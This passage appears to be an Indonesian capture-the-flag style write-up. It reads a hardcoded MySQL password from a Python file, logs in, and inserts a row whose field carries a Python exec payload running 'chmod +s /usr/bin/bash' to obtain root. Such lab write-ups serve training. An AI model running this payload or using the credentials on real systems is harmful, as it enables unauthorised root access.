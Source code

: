 Dari file python kita terdapat login mysql dengan kredential dibawah. Login Mysql 
```bash
mysql.connector.connect(host="localhost",database="app",user="diego",password="dCb#1!x0%gjq"
```
Setelah itu kita mencoba login pada Mysql dan ikuti payload dibawah untuk mendapatkan Root Access
![image](https://media.discordapp.net/attachments/740245586095112242/1077447416703373332/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1077447592587300874/image.png)

Disini kita menggunakan root privileges dari [Payloads](https://github.com/advisories/GHSA-75c9-jrh4-79mc)
```bash
insert into escalate values ("a","b","c",'hello=exec("""\nimport os\nos.system("chmod +s /usr/bin/bash")""")');
```
![image](https://media.discordapp.net/attachments/740245586095112242/1077447965121204304/image.png)
![image](https://media.discordapp.net/attachments/740245586095112242/1077447989662072915/image.png)
